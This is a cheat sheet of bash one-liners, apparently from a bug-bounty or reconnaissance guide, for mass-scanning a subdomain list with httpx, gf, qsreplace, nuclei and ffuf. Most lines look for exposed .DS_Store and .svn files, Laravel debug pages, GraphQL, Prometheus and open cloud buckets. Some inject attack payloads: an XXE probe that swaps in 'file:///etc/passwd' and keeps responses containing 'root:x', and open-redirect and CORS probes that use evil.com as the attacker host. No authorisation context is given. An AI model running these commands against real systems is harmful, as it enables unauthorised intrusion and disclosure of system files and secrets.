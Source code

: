 Find Public .DS_Store Files (Directory Listing Exposure)
```bash
cat subdomains.txt | httpx -silent -path /.DS_Store -mc 200 -o ds_store_exposed.txt
```

Scan for Exposed .svn Repos (Source Code Leak)
```bash
cat subdomains.txt | httpx -silent -path /.svn/entries -mc 200 -o svn_repos_exposed.txt
```

Find Open GraphQL Endpoints (GraphQL Injection)
```bash
cat subdomains.txt | httpx -silent -path /graphql -mc 200 -o graphql_exposed.txt
```

Detect Exposed Laravel Debug Pages (Full App Secrets)
```bash
cat subdomains.txt | httpx -silent -path /_ignition/health-check -mc 200 -o laravel_debug_exposed.txt
```

Check for File Upload Points (RCE Chances)
```bash
cat subdomains.txt | gf upload | httpx -silent -o file_upload_points.txt
```

Find XML External Entity (XXE) Injection Points
```bash
cat subdomains.txt | gf xxe | qsreplace 'file:///etc/passwd' | httpx -silent -fr 'root:x' -o xxe_exploitable.txt
```

Detect Misconfigured AWS Cognito Pools (Token Takeover)
```bash
cat subdomains.txt | nuclei -t misconfiguration/cognito-detect.yaml -o aws_cognito_misconfig.txt
```

Scan for Open Cloud Storage Buckets (GCP/Azure)
```bash
cat subdomains.txt | nuclei -t exposed-storage/ -o cloud_buckets_exposed.txt
```

Find Sensitive Files via URL Fuzzing
```bash
ffuf -u FUZZ -w wordlists/sensitive-files.txt -mc 200 -o sensitive_files_found.txt
```

Detect Open Prometheus Panels (Monitoring Exposure)
```bash
cat subdomains.txt | httpx -silent -path /graph -mc 200 -o prometheus_exposed.txt
```

Find Open Redirection in APIs
```bash
cat subdomains.txt | gf redirect | qsreplace 'https://evil.com' | httpx -silent -fr 'evil.com' -o open_redirects_apis.txt
```

Detect Misconfigured CORS (Any Origin Allowed)
```bash
cat subdomains.txt | httpx -silent -H "Origin: https://evil.com" -fr "access-control-allow-origin: https://evil.com" -o misconfigured_cors.txt
```
